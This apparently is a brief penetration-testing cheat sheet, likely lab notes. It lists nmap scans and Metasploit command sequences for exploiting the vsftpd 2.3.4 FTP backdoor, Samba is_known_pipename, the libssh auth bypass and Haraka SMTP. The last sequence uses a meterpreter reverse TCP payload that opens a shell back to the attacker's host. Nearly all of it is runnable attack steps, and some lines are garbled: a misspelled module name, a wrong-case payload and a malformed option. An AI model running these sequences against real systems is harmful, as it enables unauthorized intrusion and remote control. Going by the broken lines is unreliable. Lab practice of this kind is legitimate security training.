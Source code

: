 ## Exploiting a vulnerable FTP server
	nmap -sS -sV ip
	nmap -p21 --script vuln ip
	msfconsole
	use exploit/unix/ftp/vsftpd_234_backdoor
	set RHOSTS ip
	exploit

## Exploiting Samba (file sharing service)
	nmap -sS -sV ip
	use exploit/linux/samba/is_knwon_pipename
	set RHOSTS ip
	check
	exploit


## Exploiting SSH Server (SSH server)
	nmap -sS -sV ip
	use auxiliary/scanner/ssh/libssh_auth_bypass
	set RHOSTS ip
	set SPAWN_PTY true
	exploit


## Exploiting SMTP Server
	nmap -sS -sV ip
	msfconsole
	use exploit/linux/smtp/haraka
	set SRVPORT 9898
	set email_to_root@attackdefense test
	set payload linux/x64/meterpreter_reverse_Tcp
	set RHOSTS ip
	set LHOST ip
	exploit


